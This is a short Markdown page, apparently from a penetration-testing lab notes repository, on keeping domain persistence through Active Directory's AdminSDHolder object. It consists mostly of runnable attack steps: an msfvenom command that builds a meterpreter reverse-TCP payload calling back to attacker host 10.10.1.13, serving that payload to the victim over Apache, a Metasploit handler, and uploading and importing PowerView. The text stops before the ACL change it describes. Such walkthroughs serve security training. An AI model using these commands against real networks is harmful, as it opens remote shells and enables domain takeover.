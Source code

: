
#### Maintain Domain Persistence by Exploiting Active Directory Objects

- AdminSDHolder, an Active Directory container, possesses default security permissions and serves as a template for AD accounts and groups like Domain Admins, Enterprise Admins, etc. Its purpose is to safeguard these entities from unintended permission modifications. By adding a user to AdminSDHolder's access control list, they acquire "GenericAll" permissions, equivalent to domain administrators.

**Exploiting Active Directory Objects:**

- Generate Payload
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp Lhost=10.10.1.13 Lport=444 -f exe > Exploit.exe
   ```

- Prepare Shared Folder
   - Create a shared folder: `mkdir /var/www/html/share`
   - Set permissions: `chmod -R 755 /var/www/html/share`
   - Copy payload: `cp /home/attacker/Desktop/Exploit.exe /var/www/html/share/`

- Start Apache Server
   ```bash
   service apache2 start
   ```

- Launch Metasploit Framework
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set Lhost 10.10.1.13
   set Lport 444
   run
   ```

- Victim Interaction
   - On victim machine, visit `http://10.10.1.13/share`, download and execute Exploit.exe.

- Meterpreter Shell
   - Back in attacker machine, observe meterpreter session.
   - Check admin access: `getuid`

- Upload PowerTools
   ```bash
   upload -r PowerTools C:\\Users\\Administrator\\Downloads
   ```

- PowerShell Access and ACL Modification
   ```bash
   shell
   cd C:\Windows\System32
   powershell
   ```

- Navigate and Import PowerView
   ```powershell
   cd C:\Users\Administrator\Downloads\PowerTools\PowerView
   Import-Module ./powerview.psml
   ```
